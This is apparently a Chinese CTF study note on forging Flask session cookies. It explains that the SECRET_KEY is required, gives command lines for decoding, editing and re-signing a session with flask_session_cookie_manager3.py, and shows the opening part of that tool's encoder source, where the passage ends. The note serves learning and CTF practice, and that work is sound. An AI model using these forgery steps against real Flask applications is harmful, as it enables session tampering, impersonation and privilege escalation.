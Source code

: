 ```python
```



## 2.session伪造

session伪造的必要条件是获取Secret_KEY

在kali里面：

```
解码：
python3  flask_session_cookie_manager3.py decode -s "密钥" -c "session"

改你要改的内容。

加密：python3  flask_session_cookie_manager3.py encode -s "密钥" -t "上面解密出的一串字符串（一般伪造更改后）"
```

或者脚本：

```
#!/usr/bin/env python3
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
```